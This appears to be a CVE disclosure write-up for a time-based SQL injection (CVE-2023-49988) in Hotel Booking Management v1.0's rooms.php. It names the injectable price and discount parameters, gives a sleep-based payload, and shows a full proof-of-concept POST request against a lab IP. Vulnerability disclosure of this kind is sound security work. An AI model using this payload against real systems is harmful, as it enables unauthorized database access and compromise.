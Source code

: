 # CVE-2023-49988
# Hotel Booking Management v1.0 - SQL Injection Vulnerability in the "npss" parameter at rooms.php

**Description**: A SQL Injection vulnerability exists in version 1 of the Hotel Booking Management. A malicious attacker can issue SQL commands to the MySQL database when editing the prices and discounts of lodging options through the vulnerable parameters npss, dpss, npsd, dpsd, npds, dpds, npdd, dpdd, npdst, or dpdst.  
  
**Vulnerable Product Version**: Hotel Booking Management v1.0  
**CVE Author**: Geraldo Alcântara  
**Date**: 28/11/2023  
**Confirmed on**: 19/12/2023  
**CVE**: CVE-2023-49988     
**Tested on**: Windows  
### Steps to reproduce:  
To exploit this vulnerability, an attacker can navigate to /HotelBookingManagement-main/rooms.php. By injecting an SQL payload into parameters such as npss, dpss, npsd, dpsd, npds, dpds, npdd, dpdd, npdst, or dpdst while modifying the prices and discounts of lodging options, the attacker can compromise the system.
**Payload**: (select*from(select(sleep(5)))a)
### Request:  
```
POST /HotelBookingManagement-main/rooms.php HTTP/1.1
Host: 192.168.68.148
Content-Length: 127
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.68.148
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.68.148/HotelBookingManagement-main/rooms.php
Accept-Encoding: gzip, deflate, br
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=aih2rvevdrpegiqt8nlstav7am
Connection: close

npss=(select*from(select(sleep(5)))a)&dpss=2&npsd=800&dpsd=2&npds=1100&dpds=3&npdd=1500&dpdd=4&npdst=2000&dpdst=13&updateRooms=
```
Discoverer(s)/Credits:
Geraldo Alcântara
